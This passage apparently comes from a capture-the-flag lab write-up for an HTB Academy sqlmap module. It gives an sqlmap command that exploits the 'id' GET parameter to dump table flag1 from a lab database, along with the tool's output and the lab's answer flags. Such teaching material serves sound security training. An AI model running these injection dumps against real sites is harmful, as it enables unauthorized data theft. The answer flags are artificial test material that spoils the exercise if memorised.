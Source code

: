 ```
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```

Answer: `HTB{un173_7h3_un173d}`

# Database Enumeration

## Question 1

### "What's the contents of table flag1 in the testdb database? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be (`-D testdb` specifies that the database "testdb" will be used to retrieve data from, and `-T flag1` specifies the table name within the database):

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' -D testdb -T flag1 --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' -D 'testdb' -T flag1 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+

<SNIP>
```
